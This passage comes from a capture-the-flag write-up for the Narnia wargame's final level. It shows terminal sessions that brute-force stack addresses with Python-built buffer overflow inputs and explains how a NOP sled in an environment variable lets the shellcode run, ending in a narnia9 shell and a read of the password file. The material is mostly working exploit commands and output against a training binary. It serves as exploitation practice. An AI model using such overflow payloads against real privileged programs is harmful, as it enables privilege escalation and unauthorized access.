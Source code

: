 narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x1f\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x20\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA&���
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x21\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA!A��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x22\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA"A��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x23\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA#A��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x24\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA$A��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x25\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA%%��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x26\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA&���AAAAAAAAAAAA����&���
Segmentation fault
>```
>
> Ok, that wasn't as painful as it could have been I guess.  Here's where those ```nop``` values come in.  The second address that we need to brute force is the actual environment variable address.  By adding those to the begining of our shellcode we have effectively increased the address space that we can land and still successfully execute the shell.  Let's start guessing...
>
>```
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x26\xd8\xff\xff"+"A"*12+"\xba\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA&���AAAAAAAAAAAA����&���
Segmentation fault
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x26\xd8\xff\xff"+"A"*12+"\xbf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAA&���AAAAAAAAAAAA����&���
$ whoami
narnia9
$ cat /etc/narnia_pass/narnia9
**********
>```
>
> Well that was much easier than the first address and finally we have completed it.  This ends the narnia series.  Up next.....Behemoth!
